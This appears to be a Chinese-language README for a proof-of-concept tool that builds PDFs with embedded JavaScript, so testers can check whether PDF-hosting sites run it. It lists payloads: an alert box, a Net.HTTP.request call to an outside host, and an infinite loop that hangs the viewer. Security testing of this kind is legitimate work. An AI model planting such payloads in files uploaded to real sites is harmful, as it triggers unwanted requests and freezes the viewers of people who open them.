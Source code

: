 # 生成包含JavaScript代码的PDF文件

PDF文件能够执行部分JavaScript代码。
此脚本允许我们生成带有JavaScript代码PDF文件，以帮助我们检查在打开文件时是否执行了该JavaScript代码。
>但需要注意的是，PDF能够执行的JavaScript代码非常有限，不能和常规XSS相提并论，因为常规XSS能够打到用户cookie，这个并不能。以目前情况看来，PDF XSS只能够弹窗，基本上SRC对于PDF XSS都是忽略为主。

## 使用方法

1. 编辑`poc.js`中的JS代码(需要注意的是仅支持部分代码，并不是所有JS代码都能执行)
2. `pip install pdfrw`
3. 使用POC创建PDF `python poc.py poc.js`
4. 将生成的`result.pdf`上传到可上传的PDF网站系统中，然后访问该PDF

## 可利用代码

可利用的代码请参考: https://opensource.adobe.com/dc-acrobat-sdk-docs/library/jsapiref/JS_API_AcroJS.html

### 弹窗

```js
app.alert("XSS");
```

### 打开URL

```js
var cURL="http://[REDACTED]/";
var params =
{
     cVerb: "GET",
     cURL: cURL
};
Net.HTTP.request(params);
```

### 延迟

```js
while (true) {}
```

## 参考

以上代码基于 https://github.com/osnr/horrifying-pdf-experiments/